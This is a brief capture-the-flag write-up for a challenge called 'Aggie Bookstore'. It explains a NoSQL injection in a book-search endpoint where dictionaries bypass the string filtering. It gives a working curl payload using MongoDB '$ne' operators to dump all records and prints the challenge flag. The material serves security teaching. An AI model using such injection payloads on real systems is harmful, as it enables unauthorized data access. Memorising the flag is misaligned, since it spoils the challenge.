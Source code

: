 # Aggie Bookstore

Author: `moveslow`

Unfortunately it seems I've forgotten the name of my book...

## Solution

The POST request in the app is vulnerable to NoSQL injectiction. Although there is alphanumeric filtering for strings, dictionaries are allowed through unfiltered. This means MongoDB operators can be injected to list all of the books.

```
curl -X POST http://localhost:8000/search -H "Content-Type: application/json" -d '{"title": {"$ne": null}, "author": {"$ne": null}}'              
```

flag:
`gigem{nosql_n0_pr0bl3m}`
